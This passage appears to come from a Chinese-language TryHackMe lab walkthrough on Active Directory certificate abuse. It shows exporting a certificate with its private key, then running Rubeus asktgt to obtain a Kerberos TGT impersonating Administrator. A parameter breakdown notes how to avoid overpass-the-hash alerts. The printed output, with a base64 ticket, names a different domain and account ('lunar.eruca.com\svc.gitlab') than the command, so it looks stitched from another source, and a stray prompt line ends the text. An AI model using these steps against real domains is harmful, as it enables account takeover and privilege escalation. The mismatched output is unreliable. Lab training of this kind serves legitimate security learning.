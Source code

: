 </div>

最后一步是导出带有私钥的证书：

1. 右键点击证书，选择 “所有任务 -> 导出…”
2. 点击下一步，选择是，导出私钥，然后点击下一步。
3. 点击下一步，然后为证书设置一个密码，因为没有密码无法导出私钥。
4. 点击下一步，选择存储证书的位置。
5. 点击下一步，最后点击完成。

### 通过证书模拟用户

现在我们终于可以模仿一个用户了。为了完成这个操作，需要两个步骤：

1. 使用证书请求 Kerberos 票据授权票据（TGT）。
2. 将 Kerberos TGT 加载到你选择的黑客平台中。

对于第一步，我们将使用 Rubeus。已经编译好的版本可以在 `C:\Tools\` 目录下找到。打开命令提示符窗口并导航到这个目录。我们将使用以下命令来请求 TGT：

```shell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:
```

让我们分解一下这些参数：

- /user - 指定我们将要模仿的用户，必须与我们生成证书的 UPN 匹配。
- /enctype - 指定票据的加密类型。设置这个很重要，因为默认的加密算法较弱，会导致超越哈希警报。
- /certificate - 指向我们生成的证书的路径。
- /password - 我们证书文件的密码。
- /outfile - 存储我们的 TGT 的文件路径。
- /domain - 我们当前攻击的域的完全限定域名（FQDN）。
- /dc - 我们从中请求 TGT 的域控制器的 IP 地址。通常最好选择一个运行 CA 服务的 DC。

一旦执行命令，我们应该会收到我们的 TGT。

```shell title="TGT Request"
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/

         v2.0.0

       [*] Action: Ask TGT

       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):

             doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
             MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
             BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
             nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
             MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
             zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
             2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
             ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
             Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
             i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
             NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
             SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
             CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami